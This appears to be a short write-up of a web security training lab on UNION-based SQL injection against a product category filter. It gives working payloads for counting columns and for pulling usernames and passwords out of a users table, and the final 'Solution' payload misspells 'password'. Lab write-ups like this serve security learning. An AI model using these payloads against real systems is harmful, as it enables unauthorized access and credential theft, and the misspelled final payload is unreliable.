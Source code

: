 # Lab 6: Retrieving Multiple Data via SQL Injection (Product Category Filter)

### What I Did to Solve This Lab

- Found a **SQL injection vulnerability** in the product category filter where I could inject SQL code.
- Used a **UNION SELECT** attack to retrieve data from another table called `users` which contains the columns `username` and `password`.
- First, I figured out how many columns the original query returned by testing:

```sql
  ' UNION SELECT NULL--+
  ' UNION SELECT NULL, NULL--+
  ' UNION SELECT NULL, NULL, NULL--+
```
Once I confirmed the number of columns (2 in this case), I extracted the usernames and passwords like this:

```sql
' UNION SELECT NULL, username || '~' || password FROM users--+
```

(Note: || is for PostgreSQL string concatenation; in MySQL use CONCAT())

Made sure to always end my injection payload with --+ to comment out the rest of the original query properly.

Looked at the output for the administrator’s credentials.

Logged in using the retrieved username and password and completed the lab.

## Solution: 

<img width="1296" height="599" alt="Screenshot (777)" src="https://github.com/user-attachments/assets/1a9bfc3c-50bd-4179-9d9c-37425e925832" />

```sql
' UNION SELECT NULL, username ||'~'||passwrord FROM users--+
```
